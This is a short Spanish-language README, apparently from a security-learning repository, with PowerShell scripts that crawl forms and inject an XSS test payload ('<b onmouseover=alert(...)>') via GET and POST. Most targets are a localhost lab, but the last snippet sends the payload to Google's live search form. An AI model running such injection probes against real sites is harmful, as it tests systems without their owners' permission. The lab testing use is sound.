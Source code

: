 ## Buscar XSS en Web

El script rastreara entre las web de dicha url la palabra "ALERT"

```powershell
$web = iwr "http://localhost/seguridad/GetPost/"
$web.Links | %{
    if($_.outerText -match ".php")
    {
        $_.outerText
        $web2 = iwr ("http://localhost/seguridad/GetPost/"+$_.outerText)
        $url = "http://localhost/Seguridad/GetPost/"+$web2.Forms.action
        $web2.Forms.fields.nombre="<b onmouseover=alert('Wufff!')>click me!</b>"
        $web2.Forms.fields.edad=43
        Invoke-RestMethod -Uri $url -Method get -Body $web2.Forms.fields | Select-String "alert"
    }
}
```
--------------------------------------------------------------
#### XSS Metodo Post
```powershell
$web = iwr "http://localhost/Seguridad/GetPost/postindex.php"

$url = "http://localhost/Seguridad/GetPost/"+$web.Forms.action

$web.Forms.fields.nombre="<b onmouseover=alert('Wufff!')>click me!</b>"
$web.Forms.fields.edad=43

Invoke-RestMethod -Uri $url -Method Post -Body $web.Forms.fields
```
----------------------------------------------------------

#### XSS Metodo Get
```
$web = iwr "https://www.google.es/search?"

$url = "https://www.google.es"+$web.Forms.action

# Que salgan aleatorios los parámetros
$web.Forms.fields.q="<b onmouseover=alert('Wufff!')>click me!</b>"

Invoke-RestMethod -Uri $url -Method get -Body $web.Forms.fields
```
